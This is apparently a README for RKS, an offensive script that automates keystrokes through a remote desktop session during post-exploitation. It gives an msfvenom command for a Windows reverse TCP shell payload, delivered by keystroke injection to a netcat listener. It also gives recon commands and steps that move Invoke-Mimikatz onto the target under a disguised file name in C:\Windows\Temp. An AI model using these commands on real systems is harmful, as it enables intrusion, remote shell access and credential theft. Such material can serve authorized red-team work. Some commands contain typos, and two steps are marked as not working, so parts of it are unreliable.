 # Description

## Introduction

A script to automate keystrokes through an active remote desktop session that assists offensive operators in combination with living off the land techniques.

## About RKS (RemoteKeyStrokes)

All credits goes to [nopernik](https://github.com/nopernik) for making it possible so I took it upon myself to improve it. I wanted something that helps during the post exploitation phase when executing commands through a remote desktop.

## Help Menu

```
$ ./rks.sh -h
Usage: rks.sh [-c <cmdfile> | -i <input> -o <tofile>] [-w <windowname>] [-h]
Options:
    -c, --cmdfile <cmdfile>     Specify the file containing commands to execute
    -i, --input <input>         Specify the input file to transfer
    -o, --tofile <tofile>       Specify the output file to transfer
    -w, --windowname <name>     Specify the window name for RDP (FreeRDP is set
                                by default if not specified)

    -h, --help                  Display this help message
```

## Usage

### Internal Reconnaissance

```
$ cat recon_cmds.txt
net user
net localgroup Administrators

$ ./rks.h -c recon_cmds.txt
```

### Execute Implant

- Execute an implant while reading the contents of the payload in powershell.

```
$ msfvenom -p windowx/x64/shell_reverse_tcp lhost=<IP> lport=4444 -f psh -o implant.ps1

$ ./rks.sh -c implant.ps1

$ nc -lvnp 4444
```

- Execute a dropper implant by converting the EXE to hexadecimal using `exe2hex` (Doesn't work).

```
$ exe2hex -x implant.exe -p implant.bat

$ ./rks.sh -c implant.bat
```

### File Transfer

- Transfer a file remotely when pivoting in a isolated network. If you want to specify the remote path on windows be sure to include quotes.

```
$ ./rks.sh -i /usr/share/powersploit/Privesc/PowerUp.ps1 -o script.ps1

$ ./rks.sh -i /usr/share/powersploit/Exfiltration/Invoke-Mimikatz.ps1 -o "C:\Windows\Temp\update.ps1"
```

- Transfer and install tools with `plink.exe` for example (Does't work).

```
$ exe2hex -x plink.exe -p plink.bat

$ ./rks.sh -i plink.bat
```

### Specify Grapical Remote Software

- If you're targetting legacy operating systems with older RDP authentication specify the window name with `rdesktop`.

`$ ./rks.sh -i implant.bat -w rdesktop`

## TODO and Help Wanted

- Detect Remmina to execute keystrokes.

- Detect VNC desktop sessions such as Meterpreter VNC, TightVNC, and Remmina.

## References

- [Video: sethc.exe Backdoor CMD Payload delivery (USB Rubber Ducky style)](https://www.youtube.com/watch?v=8YFEujJUxws)

- [Original Script](https://github.com/nopernik/mytools/blob/master/rdp-cmd-delivery.sh)

## Credits

- [nopernik](https://github.com/nopernik)
